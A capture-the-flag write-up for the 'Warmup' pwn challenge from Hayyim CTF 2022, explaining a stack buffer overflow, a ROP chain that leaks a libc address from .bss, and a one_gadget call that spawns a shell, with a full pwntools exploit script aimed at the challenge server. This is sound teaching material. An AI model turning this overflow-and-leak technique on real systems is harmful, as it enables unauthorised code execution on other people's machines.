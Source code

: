 #### **Warmup,**

.

well..

as its name indicates Warmup was a warmup pwn challenge from Hayyim CTF 2022.

Hayyim CTF had very good challenges, but I did not have time to participate..(I was working on defcamp CTF at the same time)

I will do a small write up for people beginning with pwn, as it is very simple to exploit actually..

ok, so we have this small program, with an obvious buffer overflow, and very few gadgets..

let's look at the reverse:

![IDA Reverse](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/reverse.png)

ok , we can see that the vuln function, reserve 0x30 bytes on stack for his input,

and read 0xC0 bytes in it from the user..  obviously too much..

We will do the exploitation in two rounds, but the payload will be send in one time.

At the end of the vulnerable function, stack is increased of 0x30 bytes, than rbx is popped from stack, and there is the ret.

![.bss memory](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/memory.png)

When examining the .bss memory above, you can see that there are 3 libc addresses that we can leak, stdin, stdout & stderr,

and one thing important too, that memory zone is writable (it is .bss)

What we do first, is to set rbx to points to 8 bytes before stderr, at 0x601018, then we return to 0x40055d.

At the end of the vuln function, rdi, rsi and rdx are set correctly by the last read, so when we jump to 0x40055d,

the content of the stack will be dumped, and just after the call to write, rsi will be set to the value in rbx that we set before.

So now, the next read will be on this zone pointed by rbx (and now rsi) , that is the address 8 bytes before stderr on bss.

So with the next read, we fill the 8 bytes before stderr, and stop just before. We send just 8 bytes this time so..

And our ROP; return again to 0x40055d, so that time the value of stderr will be leaked.

see the leaked stderr libc address , after the 8 chars 'A' we sent:

![leaked stderr address](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/leak.png)

With that value, we will calculate the remote libc mapping address.

and this time we will return to the beginning of the vuln function at 0x40053d, to set rsi to point on stack again..

and to send our last payload, that will contain only a single onegadget value.

We could also have send a system('/bin/sh') now that we know libc remote address...

here is the exploit so...

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

exe = ELF('./warmup')
libc = ELF('./libc.so.6')

host, port = "141.164.48.191", "10001"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)


# 1st round , set rbx = 0x601018 point 8bytes before stderr address on .bss
payload = 'A'*0x30+p64(0x601018)+p64(0x40055d)+p64(0)*6
# 2nd round, now rsi will point to 0x601018 (that we pass at the 1st round in rbx, and we will dump stderr value)
payload += p64(0x601018)+p64(0x40055d)+p64(0)*6+p64(0x601018)+p64(0x40053d)

p.sendafter('> ', payload)
buff  = p.recv(0xc0)

# write 8 bytes just before stderr address on .bss
p.send('A'*8)
# receive out stderr leak
buff  = p.recv(0xc0)
print(hexdump(buff))
leak = u64(buff[0x8:0x10])
print('leak = '+hex(leak))
libc.address = leak - libc.symbols['_IO_2_1_stderr_']
print('libc.address = '+hex(libc.address))

# write again 8 bytes just before stderr address on .bss
p.send('A'*8)

# now that we know remote libc mapping address, we send a onegadget for our final payload, that will do system('/bin/sh')
onegadgets = one_gadget('libc.so.6', libc.address)
payload = 'A'*0x30+p64(0x601018)+p64(onegadgets[1])+p64(0)*10
p.sendafter('> ', payload)

# enjoy shell
p.interactive()
```

seeing is believing...

![shell is coming..!!](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/gotshell.gif)

*nobodyisnobody still pwning things*  like a ghost in machine..


